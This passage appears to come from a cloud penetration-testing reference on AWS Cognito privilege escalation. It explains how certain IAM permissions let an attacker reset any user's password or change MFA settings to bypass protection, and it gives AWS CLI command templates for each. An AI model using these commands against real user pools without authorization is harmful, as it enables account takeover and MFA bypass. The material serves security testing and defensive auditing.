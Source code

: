 ### `cognito-idp:AdminSetUserPassword`

This permission would allow an attacker to **change the password of any user**, making him able to impersonate any user (that doesn't have MFA enabled).

```bash
aws cognito-idp admin-set-user-password \
    --user-pool-id <value> \
    --username <value> \
    --password <value> \
    --permanent
```

**Potential Impact:** Direct privesc to potentially any user, so access to all the groups each user is member of and access to the Identity Pool authenticated IAM role.

### `cognito-idp:AdminSetUserSettings` | `cognito-idp:SetUserMFAPreference` | `cognito-idp:SetUserPoolMfaConfig` | `cognito-idp:UpdateUserPool`

**AdminSetUserSettings**: An attacker could potentially abuse this permission to set a mobile phone under his control as **SMS MFA of a user**.

```bash
aws cognito-idp admin-set-user-settings \
    --user-pool-id <value> \
    --username <value> \
    --mfa-options <value>
```

**SetUserMFAPreference:** Similar to the previous one this permission can be used to set MFA preferences of a user to bypass the MFA protection.

```bash
aws cognito-idp admin-set-user-mfa-preference \
    [--sms-mfa-settings <value>] \
    [--software-token-mfa-settings <value>] \
    --username <value> \
    --user-pool-id <value>
```

**SetUserPoolMfaConfig**: Similar to the previous one this permission can be used to set MFA preferences of a user pool to bypass the MFA protection.

```bash
aws cognito-idp set-user-pool-mfa-config \
    --user-pool-id <value> \
    [--sms-mfa-configuration <value>] \
    [--software-token-mfa-configuration <value>] \
    [--mfa-configuration <value>]
```

**UpdateUserPool:** It's also possible to update the user pool to change the MFA policy. [Check cli here](https://docs.aws.amazon.com/cli/latest/reference/cognito-idp/update-user-pool.html).

**Potential Impact:** Indirect privesc to potentially any user the attacker knows the credentials of, this could allow to bypass the MFA protection.

